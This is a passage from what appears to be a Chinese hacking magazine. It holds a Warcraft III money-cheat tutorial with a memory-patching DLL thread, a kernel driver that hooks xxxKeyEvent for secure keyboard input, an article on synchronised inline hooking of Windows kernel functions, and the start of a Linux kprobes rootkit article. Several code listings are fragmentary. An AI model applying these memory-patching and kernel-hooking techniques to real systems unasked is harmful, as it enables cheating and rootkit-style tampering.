上面代码的第一句可以发现 `EDX` 来源于 `[ESI+C]`，即刚刚得到的存放金钱的地址可以修改为：`[[ESI+C]+14]+78`。那么 `ESI` 又是从何而来呢？继续向上查找代码，寻找修改 `ESI` 的地方，发现有一句代码为：

```asm
6F088D98 : 8B35 44C7876F      MOV ESI, DWORD PTR DS:[6F87C744]
```

从这句代码我们可以惊喜地发现 `ESI` 来源于地址为 `6F87C744` 处的一个值，所以游戏中存放金钱的地址为：`[[[6F87C744]+C]+14]+78`。到此为止我们的跟踪查找结束了。

## 完成外挂

走到这一步，我们的工作已经完成了 90% 了，接下来的工作是在远程线程的代码中修改上面得到的地址中的值。本部分的源代码位于 Dll 工程目录下，该工程编译后生成一个 DLL 文件。在 `DllMain` 函数中新创建一个专门用于修改游戏数据的线程。新线程代码如下：

```cpp
DWORD WINAPI ChangData(LPVOID lpParameter)
{
    // 用于修改游戏数据的新线程
    while (1)
    {
        __asm
        {
            // 保存所有寄存器的值
            pushad
            // 得到游戏数据地址
            mov eax, 6F87C744H
            mov ebx, [eax]
            add ebx, 0CH
            mov eax, [ebx]
            add eax, 14H
            mov ebx, [eax]
            add ebx, 78H
            // 给游戏增加 1000 金钱
            mov eax, [ebx]
            add eax, 3E8H
            mov [ebx], eax
            // 恢复所有寄存器的值
            popad
        }
        // 等待 3 秒
        Sleep(3000);
    }
    return 0;
}
```

这段代码很好理解，首先是根据表达式 `[[[6F87C744]+C]+14]+78` 得到存放金钱的内存地址，然后把这个地址中所存放的金钱值放在 `EAX` 中，把这个值加上 `1000` 后放回原地址中，这样在游戏过程中自己的金钱就会每隔 3 秒额外增加 1000。

到现在为止整个外挂就完成了。总的来说这个程序实现了外挂的基本功能，但功能有限，更强大的功能，如修改游戏的其他属性、控制角色的动作等还有待实现，读者可以在此程序基础上进行完善。本文只是介绍了一个最简单外挂的开发流程，由于大部分商业游戏都会通过加壳、反跟踪等方式来保护自己的游戏不被别人逆向分析，所以开发商业外挂还必须经过解密这一步，如果在逆向分析之前不能突破解密这一关，写任何外挂都是空谈。运行源代码时首先运行游戏“War3.exe”，开始游戏后编译工程 Dll，再编译并运行工程 inject，这时这个外挂就可以发挥作用了。工程 Dll 生成的 `Dll.dll` 放在了 `C:\windows` 目录下，这样做可以避免远程线程代码在导入该文件时因找不到 DLL 文件而失败。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

```cpp
DWORD WINAPI ChangData(LPVOID lpParameter)
{
    // 用于修改游戏数据的新线程
    while(1)
```

- 前置知识：驱动
- 关键词：键盘、xxxKeyEvent、挂钩


# 挂钩 xxxKeyEvent 实现安全键盘输入

文 SCEIIP

在输入密码等隐私信息的时候，用户总是不希望自己所输入的信息被其他软件监听到。各种安全输入控件、密码保护器，大多会提供一定程度的反键盘监听功能。然而，部分安全输入控件仅仅通过不断注册 `WH_DEBUG` 钩子，来阻止消息钩子获取按键信息，这种做法是相当脆弱的。先不考虑 `WH_DEBUG` 钩子被卸除的可能性，除了广为键盘记录器所用的消息钩子之外，Windows 操作系统提供了很多记录按键信息的方式，如 `GetAsyncKeyState`、`GetKeyboardState` 等 API 函数，通过调用这些函数，恶意软件完全可以绕过此类保护。即使这些方法也被屏蔽，恶意软件甚至可以通过 `DirectInput` 等更为复杂的接口获取到按键信息。可以发现，如果要通过一一阻止用户层获取按键信息的各种方法来实现安全键盘输入，其复杂度是难以想象的。因此，有的安全输入控件会选择直接访问键盘硬件，然而除了传统的 PS/2 键盘之外，还存在 USB 键盘、蓝牙无线键盘等多种类型，对这些产品的兼容性一直是一个很大的问题；此外，对于远程桌面等访问方式，直接访问硬件显然行不通。而本文所要介绍的方法，从内核入手，仅需挂钩一个函数，就可以在按键信息到达用户层之前进行处理，在确保安全性的同时降低了复杂程度。

在按键事件发生的时候，`xxxKeyEvent` 函数会被调用。`xxxKeyEvent` 函数将按键消息分发到用户层的各种接口，包括更新 `AsyncKeyState`、调用各种消息钩子处理函数，及发送消息到窗口等等。通过挂钩此函数，我们可以在按键信息被发送到用户层之前进行处理。

`xxxKeyEvent` 函数是 Win32 子系统内核驱动程序 `win32k.sys` 所包含的未导出的私有函数。通过下载其对应的调试符号文件，我们可以在 Windbg 等调试工具中找到它。需要注意的是，`win32k.sys` 加载在会话空间（session address space）中，在 System 等非 GUI 进程中是不可见的，如果要对其进行调试分析，需要切换到 GUI 进程的环境中。在 Windbg 中输入以下命令即可完成。

```text
kd> !process 0 0 csrss.exe
PROCESS 81233020  SessionId: 0  Cid: 0254  Peb: 7ffd7000  ParentCid: 0214
DirBase: 04197000  ObjectTable: e14c3c20
HandleCount: 270.
Image: csrss.exe
```

当前系统中 `csrss.exe` 进程的 EPROCESS 结构地址为 `0x81233020`，接下来可以通过 `.process` 命令切换到此进程的环境。

```text
kd> .process /i 81233020
You need to continue execution (press 'g' <enter>) for the context
to be switched. When the debugger breaks in again, you will be in
the new process context.
kd> g
Break instruction exception - code 80000003 (first chance)
nt!RtlpBreakWithStatusInstruction:
804e4592 cc  int  3
```

成功后，Windbg 会在 `csrss.exe` 进程的环境中中断下来，接下来就可以查看 `xxxKeyEvent` 函数了。之后，可以对这个函数设置断点进行分析。

```text
kd> bp xxxKeyEvent
```

按下任意键，就会在 `xxxKeyEvent` 上中断下来，说明 `xxxKeyEvent` 在键盘有动作时会被调用。可以发现每按下或松开一个键，此函数就会被调用一次，分别对应 `KeyDown`、`KeyUp` 事件。

通过进一步的分析，可以知道 `xxxKeyEvent` 函数调用方式为 `stdcall`，共有 8 个参数，并且第一个参数为按键的虚拟键值。

为了对按键信息进行处理，本文中简单地使用 `lastkey` 全局变量保存，之后由用户态程序通过 `IoControl` 取出。

```c
ULONG __stdcall hooked_xxxKeyEvent(ULONG a1, ULONG a2, ULONG a3, ULONG a4, ULONG a5, ULONG a6, ULONG a7, ULONG a8)
{
    lastkey = a1;
    return 1;
}
```

**注意：**这里并没有调用原函数，因而所有的按键信息都不会发送到用户层。运行示例程序时可以发现即使输入焦点切换到别的窗口上，仍只能在安全输入框中进行输入。读者可以在输入框失去焦点时进行处理，或者卸载钩子，以进一步完善。

由于 `xxxKeyEvent` 函数是未导出的私有函数，因此在挂钩前需要对其定位。在本文中使用特征码定位的方式，`xxxKeyEvent` 函数头部反汇编如下：

```asm
kd> u xxxKeyEvent
win32k!xxxKeyEvent:
bf85bbce 8bff            mov edi,edi
bf85bbd0 55              push ebp
bf85bbd1 8bec            mov ebp,esp
bf85bbd3 83ec40          sub esp,40h
bf85bbd6 a138a59abf      mov eax,dword ptr [win32k!gptiCurrent (bf9aa538)]
bf85bbdb 8b5508          mov edx,dword ptr [ebp+8]
```

通过匹配前六条指令即可完成定位，而指令 `mov eax,dword ptr [win32k!gptiCurrent (bf9aa538)]` 中的 `win32k!gptiCurrent` 全局变量地址可能随 `win32k.sys` 版本动态变化，在定位时应将其排除。最后，特征码为：

```text
8b ff 55 8b ec 83 ec 40 a1 ?? ?? ?? ?? 8b 55 08
```

其中 `??` 匹配任意的一个字节。为了确定搜索范围，还需要遍历 `PsLoadedModuleList`，获取 `win32k.sys` 内核模块的基地址和大小，完整代码实现如下。

```c
UCHAR needle[] = {0x8B,0xFF,0x55,0x8B,0xEC,0x83,0xEC,0x40,0xA1};

void locate_xxxKeyEvent()
{
    PLIST_ENTRY pList = NULL;
    PLDR_DATA_TABLE_ENTRY Ldr = NULL;
    UNICODE_STRING str_win32k_sys;
    ULONG BaseAddr = 0;
    ULONG Size = 0;
    ULONG i;
    RtlInitUnicodeString(&str_win32k_sys, L"win32k.sys");
    try {
        ...
    }
}

pList = ((PLIST_ENTRY)drvobj->DriverSection)->Flink; // 遍历 PsLoadedModuleList

do {
    Ldr = CONTAINING_RECORD(pList, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);
    if (Ldr->DllBase) {
        if (RtlCompareUnicodeString(&Ldr->BaseDllName, &str_win32k_sys, FALSE) == 0) {
            BaseAddr = (ULONG)Ldr->DllBase;
            Size = (ULONG)Ldr->SizeOfImage;
        }
    }
    pList = pList->Flink;
} while (pList != ((LIST_ENTRY*)drvobj->DriverSection)->Flink);

if (!BaseAddr) {
    dprintf("error : win32k.sys not found");
    return;
}

for (i = BaseAddr; i < BaseAddr + Size - sizeof(needle); i++) {
    if (*(PUCHAR)(i) == 0x8b) {
        if (RtlCompareMemory(needle, (PUCHAR)i, sizeof(needle)) == sizeof(needle)) {
            if ((*(PUCHAR)(i + 0xd) == 0x8b) && (*(PUSHORT)(i + 0xe) == 0x0855)) {
                pfnxxxKeyEvent = (PVOID)i;
            }
        }
    }
}

except(EXCEPTION_EXECUTE_HANDLER) {
}

dprintf("pfnxxxKeyEvent : %x\n", pfnxxxKeyEvent);
```

找到函数地址后，便可以对其进行挂钩处理。由于 `xxxKeyEvent` 函数不可以直接写入，挂钩前需要关闭 `CR0` 寄存器的 `WP` 位。

```c
VOID wpoff()
{
    __asm {
        cli;
        push eax;
        mov eax, cr0;
        and eax, 0FFFEFFFFh;
        mov cr0, eax;
        pop eax;
    }
}

VOID wpon()
{
    __asm
    {
        push eax;
        mov eax, cr0;
        or eax, 10000h;
        mov cr0, eax;
        pop eax;
        sti;
    }
}

void hook()
{
    KIRQL oldirql;
    if (hooked) return;
    if (!pfnxxxKeyEvent) locate_xxxKeyEvent();
    if (!pfnxxxKeyEvent) return;
    oldirql = KeRaiseIrqlToDpcLevel();
    wpoff();
    *((PUCHAR)pfnxxxKeyEvent) = 0xe9;
    *((PULONG)((ULONG)pfnxxxKeyEvent + 1)) =
        (ULONG)hooked_xxxKeyEvent - (ULONG)pfnxxxKeyEvent - 5;
    wpon();
    KeLowerIrql(oldirql);
    hooked = 1;
    dprintf("hooked\n");
}
```

由于 `win32k.sys` 加载在会话地址空间，所以无论是定位函数、还是挂钩、脱钩处理，都需要 GUI 进程的环境，而不能在 `DriverEntry` 函数中进行。在本例中，GUI 程序通过 `IoControl` 调用驱动进行挂钩处理。

```c
NTSTATUS DispatchIoctl(PDEVICE_OBJECT pDevObj, PIRP pIrp)
{
    NTSTATUS status = STATUS_INVALID_DEVICE_REQUEST;
    PIO_STACK_LOCATION pIrpStack;
    ULONG uIoControlCode;
    PULONG pIoBuffer;
    ULONG uInSize;
    ULONG uOutSize;
    long hProcess;

    pIrpStack = IoGetCurrentIrpStackLocation(pIrp);
    uIoControlCode = pIrpStack->Parameters.DeviceIoControl.IoControlCode;
    pIoBuffer = (PULONG)pIrp->AssociatedIrp.SystemBuffer;
    uInSize = pIrpStack->Parameters.DeviceIoControl.InputBufferLength;
    uOutSize = pIrpStack->Parameters.DeviceIoControl.OutputBufferLength;

    switch(uIoControlCode)
    {
        case IOCTL_START: // 安装钩子
            hook();
            status = STATUS_SUCCESS;
            break;

        case IOCTL_STOP: // 卸载钩子
            unhook();
            status = STATUS_SUCCESS;
            break;

        case IOCTL_GETLASTKEY: // 获取按键信息
            pIoBuffer[0] = lastkey;
            lastkey = 0;
            status = STATUS_SUCCESS;
            break;
    }

    if (status == STATUS_SUCCESS)
        pIrp->IoStatus.Information = uOutSize;
    else
        pIrp->IoStatus.Information = 0;

    pIrp->IoStatus.Status = status;
    IoCompleteRequest(pIrp, IO_NO_INCREMENT);
    return status;
}
```

在示例程序中，上层 GUI 程序通过定时调用 `IOCTL_GETLASTKEY` 查询按键信息，并进行处理返回到文本框中。由于篇幅所限，本例中只处理了 `0~9`、`A~Z` 的字符，并没有对 Shift 键、Backspace 键等进行处理，感兴趣的读者可自行添加。下面以 Visual Basic 语言给出简单的处理按键的方法。

```vb
Private Sub Timer1_Timer()
    Dim t As Long
    IoControl IOCTL_GETLASTKEY,0,0,ByVal VarPtr(t), 4
    If (t And &H8000) > 0 Then '是否为 KeyUp 事件
        t = t And &HFF
        If (t >= 48) And (t <= 90) Then
            Text1.Text = Text1.Text + Chr(t)
        End If
    End If
End Sub
```

本文所介绍的方法，只需挂钩一个函数即可在按键信息到达用户层的所有接口之前进行处理，无论是消息钩子，还是利用 `GetAsyncKeyState` 等 API 的键盘记录器，在这种保护方式下均不能正常工作。然而，恶意软件还是可能通过感染键盘驱动等方式截取到按键信息的。为了应对此类威胁，需要结合对键盘驱动等系统设施的安全扫描。只有结合了这两方面，才能实现比较完善的安全键盘输入环境。

本文所附的示例程序，在 Windows XP SP2、SP3 以及 Windows 7 SP1 上测试通过。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

## 由 HOOK 引发同步安全之设

前置知识：驱动

关键词：Hook，安全，rootkit

图/文 Zyrvsfei

在现在的 HIPS 和 rootkit 等都要用到 HOOK 技术，HOOK 也分为很多种，如 SSDT HOOK、INLINE HOOK、OBJECT HOOK 等等。这些 HOOK 技术都要对内存进行 patch 从而实现系统函数流程的跳转。而对系统内存进行 patch 的时候，必然要考虑到同步的问题。想必大家有过这样的经历：安装一个 HOOK 的时候，有时候蓝屏，有时候又正常。其实主要一部分原因是同步出现了问题。我们先来看一段 INLINE HOOK 的代码（这里以 HOOK KiInsertQueueApc 为例），带领大家看看问题的所在。

可以发现 `jmp 6cdb424a` 很显然是一个错误的地址，如果在线程切回来之前，其他线程调用了 KiInsertQueueApc 必然引发错误而蓝屏。虽然概率不大，但是如果一个用户群非常大的软件这样写的话，那么就会有用户会遇到这样的问题。下面我们来进行个测试，我写个程序不停地对 KiInsertQueueApc 进行 HOOK 和 UNHOOK，不久就出现了问题，如图 2 所示。

```c
mov eax, cr0;              // 修改 CR0，去除写保护
and eax, not 0x10000;
mov cr0, eax;
mov ebx, MyHook;
sub ebx, 0x804fec46;       // KiInsertQueueApc 地址（硬编码）
sub ebx, 5;                // 算出 MyHook 相对偏移
mov eax, 0x804fec46;
mov byte ptr [eax], 0xe9;  // 写入 JMP MyHook
inc eax;
mov dword ptr [eax], ebx;
```

代码很简单，应该都能看懂，用了硬编码，只为说明原理，不碍事。有人会认为这段代码没有问题，实际情况也没什么大的问题，但是有时候会莫名其妙地蓝屏。这是为什么呢？我们知道 Windows 是一个多任务的操作系统，所以系统为每个线程分配了时间片，当时间片用完的时候就会发生线程的切换。好了，如果在 `mov byte ptr [eax],0xe9` 这条指令执行完毕发生了线程切换，KiInsertQueueApc 函数的开头如图 1 所示。

我们看看现在的 KiInsertQueueApc，如图 3 所示。

正是执行完 `mov byte ptr [eax],0xe9` 这条指令，而其他线程在执行后面的 2 条指令前调用了 KiInsertQueueApc 导致了蓝屏。为了解决上述的问题，一般的 INLINE HOOK 的代码如下。

```c
cli;
mov byte ptr [eax],0xe9;
inc eax;
mov dword ptr [eax],ebx;
sti;
```

可以看到，就是在写入跳转指令的前后加入了 `cli` 和 `sti` 指令。CLI 指令是关闭中断，STI 是恢复中断。为什么关闭中断就可以解决上述问题呢？上述的问题可以归结于数据没有同步，在我们还没有 patch 完内存时候，发生线程切换，有其他线程访问了该内存，所以出现问题。关键在于线程切换，来看看线程是如何切换的。Windows 的线程切换基于 CPU 的时钟中断，当 CPU 发生时钟中断的时候，会执行时钟中断的 ISR，时钟中断的 ISR 会根据当前线程的时间片来判断是否需要切换线程。而 `cli` 指令可以关闭硬件中断，此时 CPU 不会响应时钟中断，所以在没有主动让出时间片（如执行 `Sleep`、`KeWaitForSingleObject` 等函数）的情况下，是不会发生线程切换的。此时，就不会有线程在 patch 完内存前访问数据。还有提升 IRQL 到 `DISPATCH_LEVEL` 级别也可以阻止线程切换。但是这 2 种方法只在单核上有效，在多核上并没多大用。

因为在多核处理器上，由于有多个逻辑 CPU，而 CLI 和提升 IRQL 到 `DISPATCH_LEVEL` 都只是针对当前 CPU 的，所以无法阻止其他逻辑 CPU 的线程切换。

对于普通的 HOOK，如果只要修改 4 个字节，如 SSDT HOOK，或者搜索目标函数中的 CALL 指令，修改之后的 4 字节来实现跳转，可以用 `lock mov [target], xxx` 指令来实现多核 CPU 的安全 HOOK。对于多核 CPU，单个逻辑 CPU 间的中断肯定是发生在指令与指令间，但是 CPU 与 CPU 之间的中断未必发生在指令间。由于所有的逻辑 CPU 都是通过内存总线来访问内存的，所以加入 LOCK 前缀可以锁住内存总线来防止数据写入前其他 CPU 访问该内存。

但是如果超过 4 字节，例如我要 PATCH 100 多个字节，那该怎么办呢？我们知道，在 PATCH 内存完成前，只要其他线程不访问该内存就没事。所以，我们可以让其他所有逻辑 CPU 一直执行我们的代码（即不发生线程切换），直到 patch 内存完成。可以通过 DPC（异步执行过程）和自旋锁结合来实现 CPU 的空转。

DPC 运行于 `DISPATCH_LEVEL` 上，所以 DPC 在执行时，不会发生线程切换，而且 DPC 又是与处理器相关而不是线程，而自旋锁在获锁期间会一直空转来检测锁，所以完全符合我们的要求。通过具体代码讲解，获取所有 CPU，可以通过 `KeQueryActiveProcessors` 来实现。

现该函数返回个 `ULONG` 的数，每个位对应一个 CPU；如 `0xF` 表示有 4 个逻辑 CPU（二进制是 `1111B`）。

```c
NTSTATUS DriverEntry(PDRIVER_OBJECT driver, PUNICODE_STRING regpath)
{
    ULONG currentnumber;
    KAFFINITY activeprocessors, currentprocessor;
    KIRQL oldirql;
    driver->DriverUnload = UnLoad;
    KeInitializeSpinLock(&spinlock);           // 初始化一个自旋锁
    oldirql = KeRaiseIrqlToDpcLevel();         // 提升到 DISPATCH_LEVEL
    i = 0;
    activeprocessors = KeQueryActiveProcessors();    // 获取所有逻辑 CPU 对应的位图
    currentnumber = KeGetCurrentProcessorNumber();   // 获取当前 CPU 编号

    for (currentprocessor = 1; activeprocessors; currentprocessor <<= 1, i++)
    {
        // 对于其他 CPU，我们插入 DPC 时候执行的例程是 MyRoutine，而对于当前 CPU，插入 DPC 执行的例程是 MyHook
        if ((currentprocessor & activeprocessors))
        {
            activeprocessors &= ~currentprocessor;
            if (currentnumber != i)
            {
                if (!NT_SUCCESS(InsertDpcForNumber(MyRoutine, i)))
                {
                    KeLowerIrql(oldirql);
                    return STATUS_SUCCESS;
                }
            }
            else
            {
                if (!NT_SUCCESS(InsertDpcForNumber(MyHook, i)))
                {
                    KeLowerIrql(oldirql);
                    return STATUS_SUCCESS;
                }
            }
        }
    }

    KeLowerIrql(oldirql);
    DbgPrint("driver is load\n");
    return STATUS_SUCCESS;
}
```

上述代码就是枚举 CPU，并且分情况插入不同的 DPC 对象。再来看看 `InsertDpcForNumber` 的代码：

```c
NTSTATUS InsertDpcForNumber(PKDEFERRED_ROUTINE comroutine, ULONG number)
{
    dpc[number] = ExAllocatePool(NonPagedPool, sizeof(KDPC));
    if (dpc[number] == 0)
        return STATUS_UNSUCCESSFUL;
}
```

初始化 DPC，`KeInitializeDpc` 这个函数在初始化 DPC 对象时候，除了执行例程和参数外，其他都采用默认数据，所以还要调用 `KeSetTargetProcessorDpc` 来设置 DPC 对象的 Number 域。该域表示本 DPC 将要插入到哪个逻辑 CPU 的 KPRCB 中，即哪个逻辑 CPU 会投递该 DPC。

```c
KeInitializeDpc(dpc[number], comroutine, 0);
KeSetTargetProcessorDpc(dpc[number], (CCHAR)number);
if (FALSE == KeInsertQueueDpc(dpc[number], 0, 0))
    return STATUS_UNSUCCESSFUL;
return STATUS_SUCCESS;
```

上面说道，在枚举 CPU 插入 DPC 对象的时候，插入了两种不同的 DPC 对象。一个 DPC 的执行例程是 MyRoutine，代码如下：

```c
VOID MyRoutine(
    __in struct _KDPC *Dpc,
    __in_opt PVOID DeferredContext,
    __in_opt PVOID SystemArgument1,
    __in_opt PVOID SystemArgument2)
{
    KIRQL oldirql;
    DbgPrint("%x is go\n", threadnumber);
    __asm {
        lock INC dword ptr [threadnumber];
    }
    while (1) {
        if (hookstart == TRUE) {
            KeAcquireSpinLock(&spinlock, &oldirql);
            KeReleaseSpinLock(&spinlock, oldirql);
            break;
        }
    }
}
```

结合 MyHook 的代码，大家就知道 `hookstart` 和 `threadnumber` 的作用了：

```c
VOID MyHook(__in struct _KDPC *Dpc,
    __in_opt PVOID DeferredContext,
    __in_opt PVOID SystemArgument1,
    __in_opt PVOID SystemArgument2)
{
    KIRQL oldirql;
    while (1) {
        if (threadnumber == (i - 1)) {
            KeAcquireSpinLock(&spinlock, &oldirql);
            DbgPrint("Hook is start\n");
            hookstart = TRUE;
            __asm {
                pushad;
                pushfd;
                mov eax, cr0;
                and eax, not 0x10000;
                mov cr0, eax;
                mov ebx, MyKeInsertQueueApc;
                sub ebx, 0x804fd47a;
                sub ebx, 5;
                mov eax, 0x804fd47a;
                mov byte ptr [eax], 0xe9;
                INC eax;
                mov dword ptr [eax], ebx;
                popfd;
                popad;
            }
            KeReleaseSpinLock(&spinlock, oldirql);
            break;
        }
    }
}
```

我们将其他所有逻辑 CPU 的 DPC 中的执行例程设置为 MyRoutine。当 MyRoutine 执行时候，将 `threadnumber` 加一，表示该逻辑 CPU 已经进入空转且不会切换线程。然后一直检测 `hookstart` 是否为 TRUE，当为 TRUE 时候，表示 MyHook 线程已经获取 `spinlock` 并开始 PATCH 工作。此时 MyRoutine 再获取自旋锁，由于 `hookstart` 在 patch 完成前不会释放该锁，所有 MyRoutine 会一直在获取自旋锁这步检测循环；当可以获得该自旋锁时，表示 patch 已经结束，MyRoutine 退出。

而 MyHook 线程，先通过 `threadnumber` 来检测是否所有其他的逻辑 CPU 都进入了指定的 MyRoutine 线程。然后获得自旋锁，并设置 `hookstart` 为 TRUE，告诉 MyRoutine 线程 Patch 开始。最后在 Patch 完后，释放自旋锁。

当然，通过分发 DPC 的方法来实现 HOOK 也并非完全 100% 安全，因为可能有线程执行到 HOOK 的目标函数刚好被切换出去，而我们 HOOK 了该函数，当线程切换回来，由于目标函数已经更改，所以依然出现问题。但是通过分发 DPC 是目前较安全的方法。

所以一般的安全软件大都是在 patch CALL 指令之后的 4 字节地址来实现安全的 HOOK。

本文的代码在 VS2010+WDK 7600 编译通过，在 VM+WinXP SP3 4 核通过测试。由于采用硬编码，所以不要在本机测试。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：kprobes，内核，Linux

# 使用 kprobes 进行内核修改

图/文 CrazyRabbit

本文使用 Kprobes 来实现对 Linux 内核的攻击，如实现 rootkit 和后门。用 Kprobes 来实现攻击是一个很好的思路，因为 kprobes 是由内核提供的 API。但是，由于后文将提到的限制，我们需要实现一些额外的功能来完成文件隐藏和攻击内核等。

## 背景介绍

### 1. kprobes

Linux 内核源码中附带的 `kprobes.txt` 很好地介绍了 Kprobes。建议读者好好地读一读。Kprobes 是 Linux 内核提供的一个调试用 API，基于处理器所提供的调试寄存器。本文我们将主要讨论 x86。`kprobes.txt` 中对于 kprobes 的介绍如下：

Kprobes 使得用户可以动态地陷入任何内核例程中并获得调试和性能信息而不中断程序的执行。用户可以陷入几乎所有内核代码地址，并设置一个处理例程，从而在陷入后可以执行该例程。目前有 3 种 probes：kprobes、jprobes 和 kretprobes（也叫 return probes）。kprobe 可以被虚拟地插入内核中任何的指令中。jprobe 被插在内核函数的入口处，并提供方便的获取函数参数的方法。kretprobe 在函数返回时得到执行。

基于上述定义，我们可以想象，kprobes 可以被用于修改内核来实现一些有用的功能，如安全检查和攻击。这就是本文的主要内容。目前，已经有很多内核补丁是用 kprobes 来实现的。这不是说传统的内核补丁方法如 kernel function trampolines 不行，而是这些方法在 SMP 上是不安全的，因为将代码交换出入不是原子操作。Kprobes 在某些地方可以被用于为内核打补丁，然而并非所有地方都可以用。某些时候，kprobes 必须结合其他的方法来使用。在本文继续深入之前，我首先指出一些需要知道的地方：

- Kprobes 在此处进行注册：`/sys/kernel/debug/kprobes/list`。
- 可以通过在此处写入 0/1 来禁用/启用 kprobes：`/sys/kernel/debug/kprobes/enabled`。
- Kprobes 的源码：`/usr/src/linux/kernel/kprobes.c` 和 `/usr/src/linux/arch/x86/kernel/kprobes.c`。
- 记住：jprobes/kretprobes 完全是基于 kprobes，并且如果禁用了 Kprobes，将同时禁用 kretprobes/jprobes。

### 2. Jprobes 例子

本文将主要涉及 jprobes 和 kretprobe。正如 kprobe 文档中所述，其提供了几个注册和卸载 probes 的函数。例如，我们现在对 `sys_mprotect` 函数很感兴趣，并想知道任何对该函数的调用及调用参数。因此，我们可以为 `sys_mprotect` 注册一个 jprobe。图 1 中的代码实现了该功能。

```c
int n_sys_mprotect(unsigned long start, size_t len, long prot) {
    struct pt_regs *regs = task_pt_regs(current);
    start = regs->bx;
    len = regs->cx;
    prot = regs->dx;
    printk("start: 0x%lx len: %u prot: 0x%lx\n", start, len, prot);
    jprobe_return();
    return 0;
}

static struct jprobe mprotect_jprobe = {
    .entry = (kprobe_opcode_t *)n_sys_mprotect
};

static int __init jprobe_init(void) {
    mprotect_jprobe.kp.addr =
        (kprobe_opcode_t *)kallsyms_lookup_name("sys_mprotect");
    if ((ret = register_jprobe(&mprotect_jprobe)) < 0) {
        printk("register_jprobe failed for sys_mprotect\n");
        return -1;
    }
}

return 0;
}
int init_module(void){
    jprobe_init();
    return 0;
}
void exit_module(void)
{ unregister_jprobe(&mprotect_jprobe); }
```

图 1 Jprobes 示例

上述代码，我们为 `sys_mprotect` 注册一个 jprobe。也就是说在该函数的入口处我们放置了一个断点指令，当该函数被调用时将产生一个 trap，同时将控制权转移到 `n_sys_mprotect()`。此时，我们就可以分析数据，如寄存器或栈中的参数以及任何内核数据结构。我们也可以修改内核的数据结构，这也就是为什么我们可以使用 kprobes 来实现补丁的原因。在我们的处理函数 `n_sys_mprotect` 返回时，对于栈或寄存器中参数所做的修改将覆盖原始值，这是因为 kprobes 在调用处理函数之前会保存寄存器状态和栈中的参数，并在 `jprobe_return()` 时进行恢复。此后真正的系统调用函数将可以执行。

### 3. Kretprobes 例子

现在开始看一下 kretprobes。如果没有 kretprobes，就无法很容易地为内核打补丁。这是因为我们设置了 jprobe 的内核函数仍然可能在 jprobe 返回后再次修改内核数据结构。正是因为我们还有 kretprobe，因此在上述情况下，就可以在内核函数返回后再修改内核数据结构。例如，想修改虚构的内核数据结构“kstruct->x”。我们只有等到函数 A 执行之后（即 jprobe 处理函数已返回），才能知道该赋何值给 “kstruct->x”。在这种情况下，就可以使用 kretprobes。如下所示：

- 函数 A 的 jprobe 处理函数 → 决定我们想要赋给 `kstruct->x` 的值。
- 函数 A 执行 → 将某值赋给 `kstruct->x`。
- 函数 A 的 kretprobe 处理函数 → 将我们决定的值赋给 `kstruct->x`。

下面是一个注册 kretprobe 的简单例子。我们将使用 `sys_mprotect` 作为例子。由图 2 可见，我们使用了 `kallsyms_lookup_name()`，但是事实上 probe 可以被虚拟地用于内核中的任何指令，即任何你知道的地址，如通过 `System.map`。给出的代码十分简单。当 `sys_mprotect` 返回时，栈顶的地址（返回地址）被修改成 `kretprobe_trampoline()` 函数的地址，该函数进一步调用我们自己的 `mprotect_ret_handler()` 函数，此时我们就可以修改内核中的数据了。

```c
static int mprotect_ret_handler(struct kretprobe_instance *ri, struct pt_regs *regs) {
    printk("Original return address: 0x%lx\n", (unsigned long)ri->ret_addr);
    return 0;
}

static struct kretprobe mprotect_kretprobe = {
    .handler = mprotect_ret_handler, // return probe handler
    .maxactive = NR_CPUS // max number of kretprobe instances
};

int init_module(void) {
    mprotect_kretprobe.kp.addr = (kprobe_opcode_t *)kallsyms_lookup_name("sys_mprotect");
    register_kretprobe(&mprotect_kretprobe);
}
```

图 2 kretprobes 示例

## Kprobes实现

### 1. Kprobe 实现

本节将首先大概地介绍 kprobe 的实现，下面的内容来自内核源码中的 `kprobes.txt`：当我们注册了一个 kprobe 之后，kprobes 就会拷贝一份指令，并将该指令的头一个字节或几个字节改为断点指令，如 i386/x86_64 上的 int3。

当 CPU 运行到该断点指令时，将产生一个 trap，保存 CPU 寄存器，同时通过 `notifier_call_chain` 机制将控制权转给 kprobes。Kprobes 执行其预处理函数，并将 kprobe 结构和保存的寄存器传给该处理函数。在处理函数结束时，如果我们还设置了后处理函数，那么该函数将被调用。

需要注意的是，当注册一个 kprobe 时，我们需要指定一个预处理，从而使得用户可以查看或修改内核数据。而后处理函数是可有可无的。

由于本文主要使用 kprobe 接口的扩展 jprobes 和 kretprobes，故将主要讨论 jprobes 和 kretprobes 的实现而非纯 kprobe。读者现在只需要知道注册一个基本的 kprobe 将在指定位置插入一个断点指令，并执行指定的处理函数。在 jprobe 和 kretprobe 的实现中我们将可以看到处理函数的例子，这些处理函数指向特殊的内核函数（`/usr/src/linux/arch/x86/kernel/kprobes.c`）。这些特殊函数类似于真正的处理函数的 prologue 和 epilogue。

### 2. Jprobe 实现

如果我们能够了解 jprobes 和 kretprobes 的内部实现，那么我们将能够更好地使用它们，并使其完成比预期更多的功能。

首先我们来看如图 3 所示的这个结构：

```c
struct jprobe {
    struct kprobe kp;
    void *entry;    /* probe 将要跳到的处理函数 */
};
```

图 3 Jprobes 结构

当我们调用 `register_jprobe()` 时，该函数将进一步调用 `register_jprobes(&jp, 1)`。`register_jprobes()` 函数的功能是设置 jprobe 的处理函数，如图 4 所示。

```c
jp->kp.pre_handler = setjmp_pre_handler;
jp->kp.break_handler = longjmp_break_handler;
ret = register_kprobe(&jp->kp);
```

图 4 `register_jprobes()` 片段，位于 `/usr/src/linux/kernel/kprobes.c`

预处理函数在真正的处理函数之前被调用，并负责保存栈中的内容、寄存器及设置 EIP。在正常情况下，用户是无法控制 jprobes 的预处理函数和后处理函数的，因为其不指向用户自定义的函数。

- [jprobe 预处理函数] - 保存栈和寄存器状态。
- [jprobe 处理函数] - 执行用户的需求。
- [jprobe 后处理器] - 恢复原始的栈和寄存器。

我们来看一下预处理器的实现代码，如图 5 所示。

```c
int __kprobes setjmp_pre_handler(struct kprobe *p, struct pt_regs *regs) {
    struct jprobe *jp = container_of(p, struct jprobe, kp);
    unsigned long addr;
    struct kprobe_ctlblk *kcb = get_kprobe_ctlblk();
    kcb->jprobe_saved_regs = *regs;
    kcb->jprobe_saved_sp = stack_addr(regs);
